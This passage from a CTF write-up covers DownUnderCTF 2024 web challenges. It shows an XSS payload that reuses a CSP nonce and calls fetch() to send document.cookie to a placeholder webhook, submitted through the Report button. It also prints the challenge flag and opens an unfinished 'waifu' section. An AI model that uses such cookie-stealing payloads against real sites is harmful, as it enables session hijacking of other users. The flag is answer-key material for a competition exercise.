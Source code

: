 Nice, it's working! Let's use the following payload and hit the **Report** button to get the flag!

```cs
<script nonce=e6e1113467bd4e4c274cc92b9a016821ecc5089509682a66397413351bb79238>fetch("<WEBHOOK_SITE>?flag="+document.cookie)</script>
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-28.png)

Flag: `DUCTF{_1_d3cid3_wh4ts_esc4p3d_}`

## Web : waifu (In Progess)

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-7.png)
